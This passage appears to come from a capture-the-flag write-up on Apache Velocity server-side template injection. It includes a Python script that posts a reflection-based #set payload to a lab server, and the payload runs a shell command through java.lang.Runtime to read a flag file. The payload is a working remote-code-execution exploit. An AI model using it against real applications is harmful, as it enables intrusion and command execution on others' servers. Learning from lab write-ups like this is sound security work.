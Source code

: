 ```java
                bufferedReader.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
    return content.toString();
}
```

Researching about Velocity Framework vulnerabilities I came across this research.
[Apache Velocity Server-Side Template Injection - IWConnect](https://iwconnect.com/apache-velocity-server-side-template-injection/)

This blog explain that Velocity has directives. And one of them is the **#set** directive. With that directive you can execute system command through Java Classes and Constructors.

So, then I modified the payload that it shows us to obtain **RCE**.

```python
import requests

def sendPayload(payload):
    url = "http://94.237.48.205:58185/"
    result1 = requests.post(url, data={"text": payload}).text
    return result1

payload = '''
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat ../flagc713d64c65.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))
```
